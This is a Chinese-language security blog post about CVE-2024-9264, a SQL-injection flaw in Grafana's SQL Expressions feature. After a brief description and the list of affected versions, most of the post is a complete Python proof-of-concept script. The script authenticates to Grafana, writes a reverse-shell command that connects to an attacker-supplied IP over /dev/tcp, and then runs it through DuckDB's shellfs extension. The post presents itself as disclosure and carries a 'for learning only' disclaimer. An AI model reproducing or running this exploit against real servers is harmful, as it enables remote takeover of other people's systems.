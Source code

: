 #  CVE-2024-9264｜Grafana SQL表达式允许远程代码执行（POC）   
alicy  信安百科   2024-10-26 20:00  
  
****  
**0x00 前言**  
  
  
Grafana是一个跨平台的开源的度量分析和可视化工具，可以通过将采集的数据查询然后可视化的展示，并及时通知。用Go语言开发的开源数据可视化工具，可以做数据监控和数据统计，带有告警功能。目前使用grafana的公司有很多，如paypal、ebay、intel等。  
  
  
  
**0x01 漏洞描述**  
  
  
Grafana实验性SQL表达式功能中的一个DuckDB SQL注入漏洞。这些查询在传递给之前未经过充分清理duckdb，导致命令注入和本地文件包含漏洞。  
  
  
漏洞源于一个名为 “SQL 表达式 ”的实验性功能，它允许用户使用 SQL 对数据源查询进行后处理。  
  
  
攻击者可以精心设计查询，摆脱预定的 SQL 上下文，执行系统命令或访问服务器上的敏感文件。  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2024-9264  
  
  
  
**0x03 影响版本**  
  
  
Grafana OSS和Enterprise版本11.0.0-11.0.5、11.1.0-11.1.6和11.2.0-11.2.1  
  
  
**0x04 漏洞详情**  
  
  
POC：  
  
https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit  
  
```
import requests
import argparse

"""
Grafana Remote Code Execution (CVE-2024-9264) via SQL Expressions
See here: https://grafana.com/blog/2024/10/17/grafana-security-release-critical-severity-fix-for-cve-2024-9264/

Author: z3k0sec // www.zekosec.com
"""

def authenticate(grafana_url, username, password):
    """
    Authenticate to the Grafana instance.

    Args:
        grafana_url (str): The URL of the Grafana instance.
        username (str): The username for authentication.
        password (str): The password for authentication.

    Returns:
        session (requests.Session): The authenticated session.
    """
    # Login URL
    login_url = f'{grafana_url}/login'

    # Login payload
    payload = {
        'user': username,
        'password': password
    }

    # Create a session to persist cookies
    session = requests.Session()

    # Perform the login
    response = session.post(login_url, json=payload)

    # Check if the login was successful
    if response.ok:
        print("[SUCCESS] Login successful!")
        return session  # Return the authenticated session
    else:
        print("[FAILURE] Login failed:", response.status_code, response.text)
        return None  # Return None if login fails

def create_reverse_shell(session, grafana_url, reverse_ip, reverse_port):
    """
    Create a malicious reverse shell payload in Grafana.

    Args:
        session (requests.Session): The authenticated session.
        grafana_url (str): The URL of the Grafana instance.
        reverse_ip (str): The IP address for the reverse shell.
        reverse_port (str): The port for the reverse shell.
    """
    # Construct the reverse shell command
    reverse_shell_command = f"/dev/tcp/{reverse_ip}/{reverse_port} 0>&1"

    # Define the payload to create a reverse shell
    payload = {
        "queries": [
            {
                "datasource": {
                    "name": "Expression",
                    "type": "__expr__",
                    "uid": "__expr__"
                },
                # Using the reverse shell command from the arguments
                "expression": f"SELECT 1;COPY (SELECT 'sh -i >& {reverse_shell_command}') TO '/tmp/rev';",
                "hide": False,
                "refId": "B",
                "type": "sql",
                "window": ""
            }
        ]
    }

    # Send the POST request to execute the payload
    response = session.post(
        f"{grafana_url}/api/ds/query?ds_type=__expr__&expression=true&requestId=Q100",
        json=payload
    )

    if response.ok:
        print("Reverse shell payload sent successfully!")
        print("Set up a netcat listener on " + reverse_port)
    else:
        print("Failed to send payload:", response.status_code, response.text)

def trigger_reverse_shell(session, grafana_url):
    """
    Trigger the reverse shell binary.

    Args:
        session (requests.Session): The authenticated session.
        grafana_url (str): The URL of the Grafana instance.
    """
    # SQL command to trigger the reverse shell
    payload = {
        "queries": [
            {
                "datasource": {
                    "name": "Expression",
                    "type": "__expr__",
                    "uid": "__expr__"
                },
                # install and load the community extension "shellfs" to execute system commands (here: execute our reverse shell)
                "expression": "SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('bash /tmp/rev |');",
                "hide": False,
                "refId": "B",
                "type": "sql",
                "window": ""
            }
        ]
    }

    # Trigger the reverse shell via POST
    response = session.post(
        f"{grafana_url}/api/ds/query?ds_type=__expr__&expression=true&requestId=Q100",
        json=payload
    )

    if response.ok:
        print("Triggered reverse shell successfully!")
    else:
        print("Failed to trigger reverse shell:", response.status_code, response.text)

def main(grafana_url, username, password, reverse_ip, reverse_port):
    # Authenticate to Grafana
    session = authenticate(grafana_url, username, password)

    if session:
        # Create the reverse shell payload
        create_reverse_shell(session, grafana_url, reverse_ip, reverse_port)

        # Trigger the reverse shell binary
        trigger_reverse_shell(session, grafana_url)

if __name__ == "__main__":
    # Set up command line argument parsing
    parser = argparse.ArgumentParser(description='Authenticate to Grafana and create a reverse shell payload')
    parser.add_argument('--url', required=True, help='Grafana URL (e.g., http://127.0.0.1:3000)')
    parser.add_argument('--username', required=True, help='Grafana username')
    parser.add_argument('--password', required=True, help='Grafana password')
    parser.add_argument('--reverse-ip', required=True, help='Reverse shell IP address')
    parser.add_argument('--reverse-port', required=True, help='Reverse shell port')

    args = parser.parse_args()

    # Call the main function with the provided arguments
    main(args.url, args.username, args.password, args.reverse_ip, args.reverse_port)
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6urwFbJSQOvp8LYTFoem4VE3zFLBHcTZU4yXdMlWMR30DSoHC4zfEbibDnwKjxqL1lpuDga3nTP0HFg/640?wx_fmt=png&from=appmsg "")  
  
  
  
**0x05 参考链接**  
  
  
https://grafana.com/blog/2024/10/17/grafana-security-release-critical-severity-fix-for-cve-2024-9264/  
  
  
https://github.com/zgimszhd61/CVE-2024-9264  
  
  
  
  
推荐阅读：  
  
  
[N/A｜Roundcube Webmail存在远程代码执行漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485474&idx=2&sn=c87807bbe8f26ab6c0e05336ace5d5f4&chksm=cea961fbf9dee8edd252018b4b32f3446653c24c74a2a2b33c5a3bafe8295266ca3cfab5d998&scene=21#wechat_redirect)  
  
  
  
[N/A｜FastAdmin 框架存在任意文件读取漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485447&idx=2&sn=6ee7e33a49aaf2eaa81f97abf7fe586d&chksm=cea961def9dee8c8b61f55e8d1f5cd9d45b460ac0f058cc175d477ff8a9c9faa8167f58f1f42&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-28995｜SolarWinds Serv-U任意文件下载漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485428&idx=1&sn=e168a5c05c00d3b3468b6eb316a029ae&chksm=cea96e2df9dee73b2dab349126cf2d0acf586461e051ab888294ab61b7830d5db2dd852592a4&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  
